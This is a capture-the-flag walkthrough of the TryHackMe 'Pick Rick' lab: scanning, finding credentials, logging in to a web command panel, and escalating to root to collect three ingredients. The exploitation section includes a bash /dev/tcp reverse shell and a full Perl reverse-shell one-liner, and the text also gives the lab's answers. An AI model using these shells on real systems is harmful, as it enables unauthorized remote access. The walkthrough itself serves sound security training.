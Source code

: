 This is a detailed walkthrough of tryhackme CTF title Pick Rick: This Rick and Morty-themed CTF revolves around exploiting a vulnerable web server to find three ingredients to transform Rick from a pickle back to human state.

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals two open ports:

![nmap_result](https://github.com/user-attachments/assets/9cffca0f-cd9d-44e0-99eb-7bd522615f25)

# Enumeration

### **Analysis Port 80/TCP**

Let's check out the websever on port 80/TCP.

I checked the source code and revealed a username in the html comments:

![pagesource](https://github.com/user-attachments/assets/23742b21-e765-47e8-8788-cc3d68224727)


Now let's run a directory scan on the target using gobuster:

```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x txt,php,html -o buster.txt
```
Command break down:

dir: Specifies that we want to perform directory brute-forcing.

-u $ip: The -u flag followed by the target IP address or hostname indicates the URL to scan.

-w=/usr/share/wordlists/dirb/common.txt: This option specifies the wordlist to use for directory brute-forcing. In this case, it uses the common wordlist located at /usr/share/wordlists/dirb/common.txt.

-x txt,php,html: The -x flag specifies file extensions to search for. Here, we’re looking for files with extensions .txt, .php, and .html.

-o buster.txt: The -o flag specifies the output file where the results will be saved. In this case, it saves the output to a file named “buster.txt.”

We found two juicy directories:
![buster](https://github.com/user-attachments/assets/005f3530-538e-4fb7-a809-9c0379e1e99b)

```bash
/login.php
/robots.txt
```
Let's also run a nikto scan on the target IP:

```bash
nikto -h $ip | tee nikto.txt
```
Command break down:
-h $ip: The -h option specifies the target host
| tee nikto.txt: The tee command allows you to save the output to a file (nikto.txt) 
![nikto](https://github.com/user-attachments/assets/2be2bf43-af1f-4a72-929a-76fdcbce784f)

This again reveals the /login.php directory among other information.

Browsing to /login.php , we are redirect to a log in page :

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2cc435b8-98c2-4a31-a765-4ed3bf419ef2/Untitled.png)

Browsing to /robots.txt , we are redirect to a html page with this word (We assume it's the passowrd):

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/764766a5-6642-47fa-bc16-76487e4cf2f0/Untitled.png)

Credential :

Username: **R1ckRul3s**

Password: xxxxxxxxxxx

# Gaining privileges

We go back to {IP}/login.phop  and i use as Username: **R1ckRul3s and as** Password: xxxxxxxxxxx

We can successfully log in: 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c5cc2faf-1fb8-46e7-988a-43de3d52ec71/Untitled.png)

We're presente with a command pannel:

Running the command 

```bash
ls
```

we can see all the above showed assets , trying to 

```bash
cat
```

these file, will results in 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/23064ade-f915-459b-91d5-010f9b8c40ec/Untitled.png)

# Expolitation

We need to use a shell, in order to gain privileges in the victimes envirolment:

As main resources i used [https://ironhackers.es/en/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/en/herramientas/reverse-shell-cheat-sheet/)

1st attempt:

****Reverse Shell- Bash shell****

Following the documentation on the Attacker machine i opened the port 8080 to listen

```bash
nc -lvp 8080
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/557467c1-42c4-4413-b59b-425c731a7a52/Untitled.png)

On the Victim machine i run the  command:

```bash
bash -i >& /dev/tcp/xx.xx.xx.xx/8080 0>&1
```

## Nothin happen, Test failed

2ndAttempt

****Reverse Shell- Perl shell****

Following the documentation on the Attacker machine i opened the port 8080 to listen

```bash
nc -lvp 1234
```

On the Victim machine i run the  command:

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We gain access to the machine:

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/df773578-cceb-4bb0-81aa-5ec70742539b/Untitled.png)

Browsing the file system , now we can 

```bash
cat "Sup3rS3cretPickl3Ingred.txt"
```

### The First ingredients is : mr meeseek hair

When i 

```bash
pwd
```

it return 

```bash
pwd
var/www/html
```

The current user is :  www-data

going back in the folder hierarchy i go to 

```bash
/home
```

I can see:

```bash
rick 
ubunutu
```

I want to explore rick folder:

```bash
cd /home/rick
```

we found the second ingredients is Jerry Tear

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f8be9229-9436-4f9c-a0c1-f03a818f97c7/Untitled.png)

At this point i want to access the root folder and gain full privileges.

I tried with 

```bash
sudo su 
```

Luckly it work, by acceding the root folder 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6a48134a-1a8b-4992-a10f-57381559a96e/Untitled.png)

In the /root folder wel'’find the 3rd ingredient :

```bash
cat 3rd.txt
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3dced013-95e7-4aca-b82b-929c7885cc14/Untitled.png)

The 3rd ingredients is fleeb Juice

